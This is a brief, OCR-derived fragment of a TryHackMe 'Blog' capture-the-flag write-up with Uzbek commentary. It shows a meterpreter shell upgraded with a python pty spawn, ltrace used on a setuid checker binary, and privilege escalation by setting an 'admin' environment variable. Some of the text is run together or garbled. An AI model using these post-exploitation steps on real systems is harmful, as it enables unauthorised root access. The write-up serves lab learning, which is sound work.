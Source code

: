 meterpreter> shell
python3 -c 'import pty;pty.spawn("/bin/bash")'



#/usr/sbin/checker
admin emasmz!!

#ltrace /usr/sbin/checker
Uni ishga tushirish, bajariladigan dastur administrator ekanligimizni 
aniqlash uchun ltracemuhit o'zgaruvchisini ( ) tekshirayotganini ko'rsatadi.


#export admin=1
Keling, muhit o'zgaruvchisini yaratamiz adminva uni quyidagicha o'rnatamiz 1

#/usr/sbin/checker


https://www.aldeid.com/wiki/TryHackMe-Blog




**$ SHELL=/bin/bash script -q /dev/null**




